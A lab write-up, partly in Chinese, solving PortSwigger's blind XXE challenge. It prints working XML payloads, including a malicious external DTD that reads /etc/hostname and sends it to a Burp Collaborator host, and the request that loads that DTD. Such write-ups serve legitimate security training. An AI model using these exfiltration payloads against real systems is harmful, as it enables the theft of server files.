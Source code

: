 ```yaml
---
title: 'Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE/External Malicious Server"
---
```


# Lab: Exploiting blind XXE to exfiltrate data using a malicious external DTD
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input but does not display the result.
* Goal: To solve the lab, exfiltrate the contents of the /etc/hostname file.
* Hint: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use the provided exploit server and/or Burp Collaborator's default public server.


## Recon
1. Use the previous method
    :::spoiler Payload
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://d3hr4hyf51vbe69iuzp4czdzuq0ho6.burpcollaborator.net"> %xxe; ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
    ```
    :::
    ![](https://hackmd.io/_uploads/rJz-j9L42.png)
    By using the previous method, we can not achieve our goal which is exfiltrating the host name of the server.

2. A new method
Refer to the hint, we can use the exploit server they provided.
    1. Copy the Collaborator Payload
    2. Complete Malicious Server Payload and Store
        ```xml
        <!ENTITY % file SYSTEM "file:///etc/hostname">
        <!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://BURP-COLLABORATOR-SUBDOMAIN/?x=%file;'>">
        %eval;
        %exfil;
        ```
    3. Complete Intercept Packet Payload
        Intercept the packet that you click `Check stock` button in arbitrary product page.
        Copy and paste your malicious server URL to `YOUR-DTD-URL`, e.g. `https://exploit-{YOUR-RANDOM-URL}.exploit-server.net/exploit`
        ```xml
        <!DOCTYPE foo [<!ENTITY % xxe SYSTEM "YOUR-DTD-URL"> %xxe;]>
        ```
    4. Send packet and observe in Collaborator

## Exp - <font color="FF0000">通靈</font>
完整的流程有點複雜，我自己的想法是暫停的封包會因為parameter entity的reference，而觸發`%xxe`而和malicious server產生互動，此時malicious server就可以利用`%eval`和`%exfil`讓`SYSTEM "file:///etc/hostname"`這個指令被執行，並且把結果當作Collaborator的GET參數回傳給Burp Suite，此時我們就可以在Burp Suite的Collaborator中看到hostname是甚麼了。

:::spoiler Malicious Server Payload
```xml!
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://ehzsiicgj29cs7nj8035q0r08reh26.burpcollaborator.net/?x=%file;'>">
%eval;
%exfil;
```
:::
:::spoiler Packet Payload
```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "https://exploit-0aae00dc044ebfc38406a3db012f0055.exploit-server.net/exploit"> %xxe;]>
<stockCheck>
    <productId>
        1
    </productId>
    <storeId>
        1
    </storeId>
</stockCheck>
```
:::
:::spoiler Success Screenshot
![](https://hackmd.io/_uploads/HkQPt5843.png)
:::

## Reference
[XXE Lab Breakdown: Exploiting blind XXE to exfiltrate data using a malicious external DTD](https://youtu.be/wqwUqHA_AJE)
